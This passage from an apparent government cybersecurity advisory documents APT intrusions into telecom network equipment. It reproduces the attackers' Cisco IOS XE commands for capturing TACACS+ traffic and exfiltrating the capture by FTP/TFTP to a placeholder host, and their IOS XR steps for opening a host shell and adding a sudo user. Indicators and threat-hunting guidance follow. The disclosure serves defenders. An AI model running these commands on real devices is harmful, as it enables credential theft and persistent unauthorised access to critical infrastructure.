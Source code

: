 privileged network administrators accounts and credentials, likely enabling the actors to compromise additional accounts and perform lateral movement.&nbsp; The commands listed in Table 1 were observed on a Cisco IOS XE-based host to aid PCAP exfiltration. Table 1 : Commands to collect PCAP Command&nbsp;&nbsp;&nbsp;&nbsp; Description monitor capture mycap interface &lt;interface-name&gt; both Set up a packet capture named 'mycap' monitor capture mycap match ipv4 protocol tcp any any eq 49&nbsp; Target port 49 on the above interface - TACACS+ monitor capture mycap buffer size 100 monitor capture mycap start Start the capture show monitor capture mycap buffer brief Check status of capture monitor capture mycap export bootflash:tac.pcap Export PCAP to file, staging for exfiltration copy bootflash:tac.pcap ftp://&lt;domain/service&gt;:*@&lt;IP&gt; Exfiltration copy bootflash:tac.pcap tftp://&lt;IP&gt;/tac.pcap Host-level indicators If console logging or visibility of remote FTP/TFTP from a network appliance are available, the following host-level indicators may assist with detecting activity:&nbsp; Capture name: 'mycap'&nbsp; Capture rule: 'match ipv4 protocol tcp any any eq 49'&nbsp; Exported pcap filename: 'tac.pcap' tftp remote filename: 'tac.pcap'&nbsp; tftp remote IP: [remote IP] &nbsp; Enabling SSH access to the underlying Linux host on IOS XR Cisco IOS XR (64-bit) is a Linux-based network operating system built on a Yocto-based Wind River Linux distribution. IOS XR is typically administered via the IOS XR CLI over SSH on port TCP/22 or via console.&nbsp; The built-in sshd_operns service exposes an additional SSH endpoint on the host Linux. When enabled, it listens on TCP/57722 and provides direct shell access to the host OS. Root logins are not permitted to this service, as only non-root accounts can authenticate. On IOS XR, sshd_operns is disabled by default and must be explicitly started (e.g., service sshd_operns start). Persistence across reboots requires enabling at init ( chkconfig ) or equivalent. In observed intrusions, the APT actors enabled sshd_operns , created a local user, and granted it sudo privileges (e.g., by editing /etc/sudoers or adding a file under /etc/sudoers.d/ ) to obtain root on the host OS after logging in via TCP/57722.&nbsp; The commands listed in Table 2 were executed from the host Linux bash shell as root. Table 2 : Commands to add user to sudoers Command&nbsp;&nbsp;&nbsp;&nbsp; Description service sshd_operns start Starting the sshd_operns service useradd cisco password cisco Adding a new user sudo vi /etc/sudoers Adding the new user to sudoers chmod 4755 /usr/bin/sudo As 4755 is the default permissions for sudo, it is unclear why the actors executed this command Threat hunting guidance The authoring agencies encourage network defenders of critical infrastructure organizations, especially telecommunications organizations, to perform threat hunting, and, when appropriate, incident response activities. If malicious activity is suspected or confirmed, organizations should consider all mandatory reporting requirements to relevant agencies and regulators under applicable laws and regulations, and any additional voluntary reporting to appropriate agencies, such as cybersecurity or law enforcement agencies who can provide incident response guidance and assistance with mitigation. See the Contact information section for additional reporting information. The malicious activity described in this advisory often involves persistent, long-term access to networks where the APT actors maintain several methods of access. Network defenders should exercise caution when sequencing defensive measures to maximize the chance of achieving full eviction, while remaining compliant with applicable laws, regulations, and guidance on incident response and data breach notifications in their jurisdictions. Where possible, gaining a full understanding of the APT actors’ extent of access into networks followed by simultaneous measures to remove them may be necessary to achieve a complete and lasting eviction. Partial response actions may alert the actors to an ongoing investigation and jeopardize the ability to conduct full eviction. Incident response on one network may also result in the APT actors taking measures to conceal and maintain their access on additional compromised networks, and potentially disrupt broader investigative and operational frameworks already in progress. The APT actors often take steps to protect their established access, such as compromising mail servers or administrator devices/accounts to monitor for signs that their activity has been detected. Organizations should take steps to protect the details of their threat hunting and incident response from APT actor monitoring activities. The authoring agencies strongly encourage organizations to conduct the following actions for threat hunting: Monitor configurations changes Pull all configurations for running networking equipment and check for differences with latest authorized versions. Review remote access configurations for proper application of ACL and transport protocols. Review ACLs for any unauthorized modifications. If SNMP is being used, ensure networking equipment is configured to use SNMPv3 with the appropriate authentication and privacy configurations set, as defined in the User-based Security Model (USM) and the View-based Access Control Model (VACM). Verify the authenticity of any configured local accounts and their permission levels. Check all routing tables to ensure that all routes are authorized and expected. Verify that any PCAP commands configured on networking equipment are authorized. Monitor virtualized containers If networking equipment has the capability to run virtualized containers, ensure that all running virtualized containers are expected and authorized. For devices that support Cisco Guest Shell (IOS XE and NX-OS), do